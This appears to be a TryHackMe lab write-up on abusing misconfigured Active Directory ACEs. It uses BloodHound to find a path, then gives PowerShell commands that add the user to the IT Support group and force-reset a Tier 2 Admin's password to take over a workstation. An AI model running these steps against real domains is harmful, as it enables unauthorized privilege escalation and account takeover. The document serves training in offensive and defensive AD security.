

# Exploiting permission delegation

## Exploiting ACEs

Access Control Entries (ACEs) populate Discretionary Access Control Lists (DACLs). These ACLs determine the 
permissions that certain AD objects have over others. Almost any AD object can be secured with ACEs, which then 
describe the allowed and denied permissions that any other AD object has against the target object.

Certain ACEs can be very dangerous if misconfigured:

* ForceChangePassword: Set a user's password without knowing their current password.
* AddMembers: Add users (including oneself), groups, or computers to a target group.
* GenericAll: Complete control over an object, including the ability to change the user's password, register an SPN 
or add an AD object to the target group.
* GenericWrite: Update any non-protected parameters of our target object. For example, could update the scriptPath 
parameter, which would set a user's logon script.
* WriteOwner:  Update the owner of the target object. Could make ourselves the owner, allowing us to gain additional 
permissions over the object.
* WriteDACL: We have the ability to write new ACEs to the target object's DACL. For example, could write an ACE that 
grants our account full control over the target object.
* AllExtendedRights: Perform any action associated with extended AD rights against the target object. For example, the 
ability to force change a user's password.

## Bloodhound

1. Sharphound has already been executed. The data is in the .zip task file.
2. Launch `neo4j` and `bloodhound` and import the data.

```text
sudo neo4j console
sudo bloodhound --no-sandbox
```

3. Drag the .zip file into the Bloodhound window. 
4. Search for our initial account retrieved from http://distributor.za.tryhackme.loc/creds

## Privilege Escalation

Look at the info in the Node Info tab, it is pretty obvious that the initial access user does not have many privileges. 
We have the ability to RDP into THMWRK1, but this will only provide us with low-privileged access.

1. Compromise the Tier 2 Admins group (administrative privileges on all workstations).
2. Ask Bloodhound if there is perhaps a road that we can follow to compromise this group (Add your user account as 
the start position and the Tier 2 Admins group as the end position).

An administrator has misconfigured the Permission Delegation of the IT Support group by providing the Domain Users 
group with the AddMembers ACE. This means that any member of the Domain Users group (including our account) can add 
accounts to the IT Support Group. Furthermore, Bloodhound shows that the IT Support Group has the ForceChangePassword 
ACE for the Tier 2 Admins group members. This is not really a misconfiguration since Tier 2 admins are not that 
sensitive, but it provides a very potent attack path when combined with the initial misconfiguration.

| 
|:--:|
| Add your user account as the start position and the Tier 2 Admins group as the end position. <br>Right-click `GenericWrite` and choose Help to read more information about the privilege escalation path. |

## Add AD account to the IT Support group

RDP to `thmwrk1.za.tryhackme.loc` and open a PowerShell terminal.

    xfreerdp /v:thmwrk1.za.tryhackme.loc /u:'max.smith' /p:'<given password>'

Use the Add-ADGroupMember PowerShell cmdlet from the AD-RSAT toolset.

```text
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\max.smith> $user = Get-ADUser -Identity 'max.smith'
PS C:\Users\max.smith> $group = Get-ADGroup -Identity 'IT Support'
PS C:\Users\max.smith> Add-ADGroupMember -Identity $group -Members $user
PS C:\Users\max.smith> Get-ADGroupMember -Identity $group
...
distinguishedName : CN=max.smith,OU=IT,OU=People,DC=za,DC=tryhackme,DC=loc
name              : max.smith
objectClass       : user
objectGUID        : f0cd5ecd-6a42-4eff-8015-071e1dc3747b
SamAccountName    : max.smith
SID               : S-1-5-21-3885271727-2693558621-2658995185-1142
...
```

## Force a new password on a T2 Admin

    PS C:\Users\max.smith> Get-ADGroupMember -Identity "Tier 2 Admins"

Pick one close to the bottom, or randomly.

```text
$password = ConvertTo-SecureString 'Password123' -AsPlainText -Force
PS C:\Users\max.smith> $t2admin = Get-ADGroupMember -Identity 'Tier 2 Admins' | Get-Random -Count 1
PS C:\Users\max.smith> $t2admin.Name
t2_caroline.dawson
PS C:\Users\max.smith> Set-ADAccountPassword -Identity $t2admin -Reset -NewPassword $password
Set-ADAccountPassword : Access is denied
At line:1 char:1
+ Set-ADAccountPassword -Identity $t2admin -Reset -NewPassword $passwor ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (CN=t2_caroline....ryhackme,DC=loc:ADAccount) [Set-ADAccountPassword],
    UnauthorizedAccessException
    + FullyQualifiedErrorId : ActiveDirectoryCmdlet:System.UnauthorizedAccessException,Microsoft.ActiveDirectory.Manag
   ement.Commands.SetADAccountPassword
```

Note: If you get an `Access Denied` error, your permissions have not yet propagated through the domain. This can 
take up to 10 minutes. The best approach is to terminate the SSH or RDP session, take a quick break, and then 
reauthenticate and try again.

```text
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\max.smith> $t2admin = Get-ADGroupMember -Identity 'Tier 2 Admins' | Get-Random -Count 1
PS C:\Users\max.smith> $t2admin.Name
t2_alan.riley
PS C:\Users\max.smith> $password = ConvertTo-SecureString 'Password123' -AsPlainText -Force
PS C:\Users\max.smith> Set-ADAccountPassword -Identity $t2admin -Reset -NewPassword $password
PS C:\Users\max.smith>
```

Authenticate to `THMWRK1` using this target account with its new password. You currently have administrative access to 
this workstation. The flag is on the Desktop of the Administrator user on THMWRK1 (flag1.txt).
